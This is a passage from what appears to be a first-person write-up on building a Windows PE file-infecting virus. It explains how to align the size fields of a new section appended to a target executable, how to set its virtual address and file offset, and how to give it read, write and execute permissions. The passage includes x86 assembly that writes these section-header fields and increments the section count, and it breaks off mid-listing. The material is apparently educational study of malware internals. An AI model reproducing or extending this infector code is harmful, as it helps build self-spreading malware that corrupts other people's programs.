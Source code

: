 A typical value for the PE optional header section alignment is `0x1000`, so the adjusted `VirtualSize` of the new section assuming the `viral_payload_size` is `0x38E` is:

```nasm
VirtualSize = (((0x38E - 0x1) / 0x1000) + 0x1) * 0x1000 
            = 0x1000 = 4096
```

For the `SizeOfRawData` a typical file alignment value is `0x200`, so the calculation is:

```nasm
SizeOfRawData = (((0x38E - 0x1) / 0x200) + 0x1) * 0x200 
              = 0x400 = 1024
```

In both cases you can see the aligned size ends up larger than the original virus size. The extra space in the file and in memory will be empty padding and that's why file infectors often find the space they need in existing executable segments.

The `SecHdrVirtualAddress` value is a relative virtual address (RVA) that specifies where the section will start in memory relative to where the loader puts the executable. Many things are specified as RVAs so it's important to be familiar with this concept. I wanted my new section to start after the end of the existing final section in the target executable which meant the `SecHdrVirtualAddress` for the new section needed to point at the last section's `SecHdrVirtualAddress` plus the last section's `VirtualSize`.

Similar to the `SecHdrVirtualAddress`, the `PointerToRawData` value is an RVA that specifies where the section will start relative to the beginning of the PE file on disk. The new section should start after the last section on-disk so the `PointerToRawData` value needed to be the last section's `PointerToRawData` plus the last section's `SizeOfRawData`.

The last part was setting the `SecHdrCharacteristics` flag. The new section contains code and should be executable and readable. In the future I know I'll want the virus code to be able to modify parts of its own section so I also wanted the section to be writable. All told this meant the flag value was the combination of the `IMAGE_SCN_MEM_READ`, `IMAGE_SCN_MEM_WRITE`, `IMAGE_SCN_MEM_EXECUTE` and `IMAGE_SCN_CNT_CODE` bitmasks.

```nasm{numberLines:true}
  ; Fix the VirtualSize, ensuring its a multiple of the section alignment
  mov eax, viral_payload_size
  sub eax, 1
  xor edx, edx
  div [sectionAlignment]
  add eax, 1
  mul [sectionAlignment]
  mov (IMAGE_SECTION_HEADER [edi]).VirtualSize, eax

  ; Fix the virtual address, again ensuring section alignment
  mov ecx, [lastSegHeader]
  mov eax, (IMAGE_SECTION_HEADER [ecx]).VirtualSize
  mov ecx, (IMAGE_SECTION_HEADER [ecx]).SecHdrVirtualAddress
  add eax, ecx
  sub eax, 1
  xor edx, edx
  div [sectionAlignment]
  add eax, 1
  mul [sectionAlignment]
  mov [edi].SecHdrVirtualAddress, eax

  ; Back at the start of the PE file fix the section count by incrementing it
  mov ecx, [targetP]
  add ecx, (IMAGE_DOS_HEADER [ecx]).e_lfanew
  mov eax, [numberOfSections]
  inc eax
  ; Write the updated number of sections
  mov (IMAGE_NT_HEADERS [ecx]).FileHeader.NumberOfSections, ax

  ; Fix the raw data size, ensuring it is a multiple of the file alignment
```